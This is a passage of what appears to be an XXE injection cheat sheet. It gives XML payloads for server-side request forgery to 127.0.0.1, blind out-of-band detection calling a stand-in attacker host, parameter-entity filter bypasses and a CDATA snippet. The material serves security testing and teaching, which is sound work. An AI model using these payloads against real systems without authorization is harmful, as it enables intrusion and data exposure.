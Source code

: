 ```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1"> ]>
```

### Exploiting blind xxe to perform oob interaction

sometime the application may be vulnerable to xxe injection but the result of the injection is not directly shown in the response, so you need to use an oob interaction to make sure whether the application is vulnerable or not.

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://your-server/"> ]>
```

its better to use a host name in the url instead of ip to know wheathe there is a dns interaction or not.

### bypass filters using parameter entities

Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

```xml
<!ENTITY % myparameterentity "my parameter entity value" > 
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```xml
%myparameterentity; 
```

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]> 
```

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

if you have found an oob using xxe this referance will be the best to follow

[What is a blind XXE attack? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/xxe/blind)

### CDATA

```xml
<![CDATA[ <text> ]]>
```
